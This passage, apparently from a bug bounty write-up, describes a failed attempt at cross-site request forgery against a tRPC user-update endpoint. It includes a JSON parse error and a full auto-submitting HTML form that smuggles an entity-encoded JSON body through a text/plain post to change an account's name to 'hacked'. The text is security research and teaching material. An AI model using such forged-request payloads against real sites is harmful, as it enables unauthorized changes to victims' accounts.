 The presence of the `=` symbol at the end was unexpected, and the server returned a parsing error:

```json
{"error":{"message":"Unexpected non-whitespace character after JSON at position 116","code":-32700}}
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i tried the known bypass to add another parameter with anything in the value and will treat `=` as normal string but sadly this didn't work

```html
<html>
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;hacked&quot;&#44;&quot;name&quot;&#58;&quot;tes&#32;edf&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1099424297&quot;&#44;&quot;country&quot;&#58;&quot;EG&quot;&#44;&quot;anything&quot;&#58;&quot;" value="&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

this resulted in error&#x20;
